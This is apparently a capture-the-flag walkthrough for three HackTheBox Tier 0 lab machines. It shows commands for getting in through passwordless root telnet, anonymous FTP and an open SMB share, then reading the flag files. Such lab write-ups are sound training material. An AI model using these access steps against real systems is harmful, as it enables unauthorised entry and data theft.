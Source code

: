 ```yaml
---
title: Starting Point | Tier 0
author: Zeropio
date: 2022-02-27
categories: [HackTheBox, StartingPoint]
tags: [htb]
permalink: /htb/starting-point/tier0
---
```



# Meow
## Connection
We just need to connect with telnet. The user will be root, with no password.
```console
> telnet 10.129.53.229
> Meow login: root
```

## Flag
Then we will have the flag just there.
```console
> ls
> cat flag.txt
```

---

# Fawn
## Connection
In this case we need to make a connection with ftp. We will use the **anonymous** user to connect, with no password.
```console
> ftp 10.129.1.14
Name (10.129.1.14:kali): anonymous
Password:
```

## Flag
With **get**, we can download the file.
```console
ftp> ls
ftp> get flag.txt
ftp> exit

> cat flag.txt
```

---

# Dancing
## Connection
We will need to use samba to connect. With the option **-L** we can see all the folders we have. We can see that the last one doesn't have protection.
```console
> smbclient -L //10.129.119.218/
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk 
> smbclient //10.129.119.218/WorkShares
```

## Flag
With the command **get** we can download the file.
```console
smb: \> ls
smb: \> cd James.P\
smb: \James.P\> ls
smb: \James.P\> get flag.txt
smb: \James.P\> exit

> cat flag.txt 
```
